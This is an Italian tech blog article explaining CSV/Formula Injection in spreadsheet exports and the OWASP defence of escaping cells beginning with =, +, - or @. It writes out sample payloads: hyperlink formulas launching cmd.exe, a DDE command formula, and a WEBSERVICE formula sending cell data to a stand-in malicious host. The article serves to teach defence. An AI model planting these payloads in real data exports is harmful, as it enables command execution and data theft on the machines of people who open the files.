 
**Comma Separated Victims (sottotitolo:  Attenti alla Formula!)**
*autore: Simone Cinti - Gennaio 2021*

Quante volte ti è capitato di aver a che fare con l'export dei dati in formato CSV?
Diverse volte, suppongo.
Sei consapevole dei rischi a cui potresti andare incontro sottovalutando alcune vulnerabilità nello sviluppo di una componente per l'export dei dati in formato CSV, che potrebbero consentire una serie di attacchi quali  **Remote Command Execution**  e **Data Breach**?
Se non hai mai sentito parlare di **Injection** e, più precisamente di **Formula Injection** o di **CSV Injection**,  allora questo articolo farà certamente al caso tuo.

Nel mio [precedente articolo](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) su questo techblog avevo già illustrato come gli attacchi di tipo Injection possono rappresentare un serio rischio per la sicurezza dei tuoi dati, e come prevenirli con Liferay.
La lettura di questo articolo: [Injection attacks - how to prevent with Liferay](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) è dunque vivamente consigliata al fine di comprendere al meglio gli argomenti trattati; tuttavia se sei un lettore esperto e già conosci le insidie che si nascondono dietro questo tipo di attacchi e le strategie per neutralizzarli, allora non avrai di certo difficoltà a proseguire con la lettura.

Come saprai, la prima regola per scongiurare gli attacchi di tipo Injection consiste nella validazione degli input: ciò consentirà di escludere alcuni caratteri più o meno speciali che potrebbero riverlarsi assai utili per l'attaccante.
Purtroppo però non sempre è facile definire una espressione regolare che consenta di filtrare in modo efficace i caratteri non desiderati dagli input, senza fare a meno di caratteri che invece appartengono propriamente al dominio dell'input e dei quali non possiamo farne a meno. Un esempio può essere il carattere apostrofo " ' " che non possiamo di certo escludere dai campi di input per il nome ed il cognome, ma del quale faremmo volentieri a meno in quanto lo stesso carattere è sia un valido separatore di attributi in HTML che un carattere indispensabile nel linguaggio SQL per definire sequenze di caratteri. Per questo motivo è sempre opportuno assicurarsi di non aver trascurato la seconda regola per la neutralizzazione degli attacchi di tipo **Injection**, che consiste nella sanitizzazione dell'output o **output escaping**. 
Nonostante tutte queste precauzioni potrebbe però accadere che, del tutto ignari dei rischi che potrebbero derivare dalla mancanza di escaping dei valori delle celle che si esportano, tutte queste attenzioni che abbiamo dato all'output sanitization in pagina vengono poi trascurate quando ci troviamo di fronte ad una componente di export CSV. 

*Niente di più pericoloso...*

Del resto anche nei nomi delle API che utilizziamo per effettuare l'escaping compaiono spesso i termini HTML e JS mentre difficilmente comparirà il termine CSV, e potrebbe anche essere questa la giustificazione di una nostra eventuale dimenticanza.

Per mostrarti in modo efficace il rischio che stai correndo, concentriamoci ora su uno dei campi di input più insidiosi da validare: il campo *note*. 
Spesso, per dare più libertà all'utente, oltre ai caratteri alfanumerici in un campo *note* multilinea sono consentiti i caratteri di punteggiatura ed alcuni simboli di valute oltre al simbolo "%" percentuale o altri caratteri speciali. 

Ma **nelle situazioni più comuni** non effettuiamo alcun tipo di validazione né di escaping dei valori delle celle esportate nel CSV, perché in genere **non sospettiamo affatto delle insidie che possono nascondersi dietro l'interpretazione di valori non desiderati in un foglio di calcolo**.

Nei fogli di calcolo più diffusi nelle Office suite, come LibreOffice Calc o Microsoft Excel, alcune funzioni del foglio di calcolo possono rivelarsi un serio problema dal punto di vista della sicurezza. 

In particolare, potremmo inserire nel campo note in input la sequenza:

    =COLLEG.IPERTESTUALE("C:\Windows\System32\cmd.exe";"Apri la pagina web")

per generare in output un CSV che nella cella corrispondente avrà un valore che se cliccato dall'utente consentirà l'esecuzione (previa conferma da parte dell'utente) del comando al percorso indicato. Nell'esempio aprirà il prompt dei comandi sulla macchina della vittima; in questo modo l'attaccante è riuscito a sfruttare un attacco **Formula Injection** al fine di ottenere poi l'esecuzione di un comando del Sistema Operativo (**Remote Command Execution** o più propriamente **OS Command Injection**)

Allarmante, vero?

Del resto potremmo ovviare semplicemente con l'aggiunta di qualche meccanismo di validazione, se non fosse per il fatto che, trattandosi di hyperlink, di certo il foglio di calcolo potrà interpretare correttamente anche la seguente stringa in formato URL encoded:

    =COLLEG.IPERTESTUALE("C%3A%5Cwindows%5Csystem32%5Ccmd.exe")
   
ecco dunque il motivo per il quale potrebbe risultare complicato proteggersi da un attacco di questo tipo nei casi in cui alcuni simboli come il percentuale, l'uguale o le parentesi tonde debbano essere accettati in input a meno di non voler limitare l'applicazione venendo meno alle necessità concordate con l'utente.

Per fortuna i fogli di calcolo che supportano questa tipologia di formule consentono la sola esecuzione del file indicato sul percorso e non il passaggio dei parametri, altrimenti potremmo effettuare lo **shutdown** immediato di un Sistema Operativo Windows iniettando il comando:

    C:\Windows\System32\cmd.exe /C "shutdown /p"

ma ciò è soltanto una magra consolazione, se pensiamo che invece è ammessa l'esecuzione di script in formato .vbs (VBScript).

Qualora la vittima utilizzasse invece versioni precedenti della suite Office oppure una versione recente in cui è abilitato il servizio [**Dynamic Data Exchange**](https://docs.microsoft.com/it-it/office/troubleshoot/excel/security-settings), allora potrebbe anche rischiare di subire un attacco ben più grave che consente l'esecuzione di comandi stavolta anche con il supporto dei parametri:

    =cmd|'/K echo INJECTION'!A0

Attacchi di questo tipo mediante **Formula Injection** sono dunque degli stratagemmi per arrivare ad altre tipologie di attacchi ben più pericolosi quali **l'esecuzione di un comando** del Sistema Operativo o di una applicazione in modo indesiderato.

Dal momento che si accennava agli hyperlink, un attaccante potrebbe sfruttare un attacco di questo tipo anche per l'invocazione di servizi web malevoli mediante la funzione per l'invocazione dei servizi web.
Ad esempio, un attaccante potrebbe sfruttare una tale vulnerabilità per iniettare una formula che consenta l'invocazione di un servizio web a sua scelta, al fine di ricevere i dati contenuti nelle altre celle. Tale formula potrà essere iniettata in un campo di input di un form, per essere poi salvata nel database applicativo.
In un secondo momento, un utente che richiederà l'export dei dati otterrà così il file CSV in cui il valore di una delle cella conterrà questa formula potenzialmente dannosa. L'utente che aprirà il file CSV, ignaro di tutto, potrebbe (involontariamente) invocare una HTTP Request verso il servizio malevolo:

    =SERVIZIO.WEB(CONCATENA("http://service.malware?d="; C6&","&C7&","&C8))

passando nei parametri in GET i dati contenuti in determinate celle, essendo così vittima di un attacco di tipo **Formula Injection** ai fini di un **Data Breach** (come avviene con il parametro "d" che nell'esempio contiene la concatenazione dei valori presenti nelle celle C6, C7 e C8).

Arrivati a questo punto ti starai chiedendo quali sono le strategie utili a neutralizzare questo tipo di attacchi.

In accordo con quanto [consigliato da **OWASP**](https://owasp.org/www-community/attacks/CSV_Injection) in merito alle strategie di difesa mediante neutralizzazione degli attacchi di tipo **CSV Injection** o **Formula Injection**, è sufficiente anteporre il carattere apostrofo " ' " ad ogni valore di cella che inizi per:

 - = (*uguale*)
 - \+  (*più*)
 - \-  (*meno*)
 - @  (*chiocciola*)
 
 in questo modo si eviterebbe al foglio di calcolo di interpretare come formula il valore contenuto nella cella, che mostrerà il valore come una semplice stringa.

Ovviamente ciò non ci renderà immuni da quell'utente che decida arbitrariamente di modificare il valore della cella eliminando il carattere apostrofo.
In tal caso potremmo adottare strategie più o meno restrittive o invasive di sanitizzazione al fine di proteggere anche gli utenti più *intraprendenti* da se stessi.

Per ulteriori approfondimenti:
- https://payatu.com/csv-injection-basic-to-exploit
- https://labs.bishopfox.com/tech-blog/2018/06/server-side-spreadsheet-injections
- https://owasp.org/www-community/attacks/CSV_Injection
- https://cwe.mitre.org/data/definitions/1236.html
- https://docs.microsoft.com/it-it/office/troubleshoot/excel/security-settings
- https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay
 
